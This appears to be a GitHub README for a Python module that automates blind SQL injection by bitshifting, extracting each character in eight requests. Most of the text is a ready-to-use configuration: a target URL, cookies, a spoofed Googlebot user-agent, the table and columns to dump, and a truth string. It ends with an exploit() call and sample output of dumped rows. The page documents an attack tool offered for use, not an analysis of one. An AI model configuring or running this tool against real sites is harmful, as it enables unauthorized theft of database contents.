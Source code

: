 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (1 = no condition)
x.options["row_condition"] = "1"

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "table"

# Specify columns to dump
x.options["columns"] = "col1,col2"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`
